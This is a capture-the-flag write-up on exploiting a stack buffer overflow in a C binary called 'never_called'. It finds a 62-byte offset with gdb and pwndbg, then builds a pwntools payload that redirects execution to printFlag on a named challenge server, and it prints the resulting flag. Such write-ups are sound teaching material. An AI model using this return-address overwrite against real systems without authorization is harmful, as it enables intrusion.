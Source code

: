 > I made a C program and in the program the method to get the flag is never called. How will you get it this time?
> ASLR is off on the server.

Open the source file in IDA. Let's see what functions are there. We find the functions main, getMessage and printFlag.

![](1.png)

Let's see what the main function does. The main function calls another function, getMessage. Now let's have a look at what's there.

![](2.png)

The getMessage function reads the string entered by the user. And that's it. To call the printFlag function we need to overwrite the return address from the getMessage function.

![](3.png)
![](4.png)

Now we will need a debugger. Because ASLR is disabled on the server, we need to disable it on the workstation before studying it as well (this can be found on Google). We will use gdb with pwndbg plugin as debuggers. Let's start gdb.

```bash
gdb ./never_called.out
```

Let's run the program and try to enter 100 characters. The pwndbg plugin indicates that the wrong return address is **0x61716161**.

![](5.png)

The EIP register tells the computer the address of the next command. By successfully overwriting it we can count that **offset is 62**.

![](6.png)

Now we need to get the address of the beginning of the printFlag function. To get the start address of the printFlag function, we have to disassemble it. The address of the printFlag function is **0x565562ab**. 

![](7.png)

For writing exploitation in PWN tasks we usually use the python3 library - pwntools. Let's create an exploitation template with the following command:

```bash
pwn template never_called.out --host 213.133.103.186 --port 32867 > nev_call.py
```

To get the flag we need to send 62 characters and after the start address of the printFlag function. The resulting payload will be as follows:

```python
offset = 62
payload = flat(
    b'A' * offset,
    p32(0x565562ab),
)
```

Now let's run the exploit with a command:

```bash
python3 nev_call.py DEBUG
```

And we get the flag!

![](8.png)

> [**Full exploit**](nev_call.py)
> 
> Flag: **bucket{5t4ck_5m45h3r_974c91a5}**
